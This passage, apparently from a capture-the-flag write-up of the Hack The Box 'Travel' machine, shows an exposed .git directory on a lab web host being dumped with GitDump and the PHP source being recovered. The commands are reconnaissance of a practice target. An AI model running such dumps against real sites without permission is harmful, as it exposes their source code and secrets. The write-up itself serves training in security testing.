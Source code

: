### Dumping git repo

After a couple of seconds, we get a hit for http://blog-dev.travel.htb/.git! Let us use [GitDump](https://github.com/Ebryx/GitDump) to dump the git directory.

```bash
root@darkness:~/git# python3 GitDump/git-dump.py http://blog-dev.travel.htb
Final website URL: http://blog-dev.travel.htb/.git/
Fetching: FETCH_HEAD
Fetching: HEAD
Fetching: ORIG_HEAD
Fetching: config
Fetching: description
Fetching: packed-refs
Fetching: info/exclude
Fetching: info/refs
Fetching: logs/HEAD
Fetching: logs/refs/heads/develop
Fetching: logs/refs/heads/master
Fetching: logs/refs/remotes/origin/develop
Fetching: logs/refs/remotes/origin/step_develop
Fetching: logs/refs/remotes/origin/master
Fetching: logs/refs/remotes/github/master
Fetching: refs/heads/develop
Fetching: refs/heads/master
Fetching: refs/remotes/origin/develop
Fetching: refs/remotes/origin/master
Fetching: refs/remotes/origin/step_develop
Fetching: refs/remotes/github/master
Fetching: objects/info/packs
Fetching: refs/remotes/origin/HEAD
Downloading Index File
Parsing Index File
Fetching: http://blog-dev.travel.htb/.git/objects/03/13850ae948d71767aff2cc8cc0f87a0feeef63
done
Fetching: http://blog-dev.travel.htb/.git/objects/2b/1869f5a2d50f0ede787af91b3ff376efb7b039
done
Fetching: http://blog-dev.travel.htb/.git/objects/3d/cc0d71c112773c71f422ece267fa05d2046940
Fetching: http://blog-dev.travel.htb/.git/objects/30/b6f36ec80e8bc96451e47c49597fdd64cee2da
done
Fetching: http://blog-dev.travel.htb/.git/objects/00/00000000000000000000000000000000000000
Fetching: http://blog-dev.travel.htb/.git/objects/ed/116c7c7c51645f1e8a403bcec44873f74208e9
done
File exists .git/objects/info/packs -> try getting idx and pack files
```

Now let us get the data from the git data structure.

```bash
root@darkness:~/git# git checkout -- .
root@darkness:~/git# ls -alh
total 24K
drwxr-xr-x  3 root root 4.0K Sep  3 15:18 .
drwx------ 57 root root 4.0K Sep  3 15:17 ..
drwxr-xr-x  6 root root 4.0K Sep  3 15:18 .git
-rwxr-xr-x  1 root root  540 Sep  3 15:18 README.md
-rwxr-xr-x  1 root root 3.0K Sep  3 15:18 rss_template.php
-rwxr-xr-x  1 root root 1.4K Sep  3 15:18 template.php
```
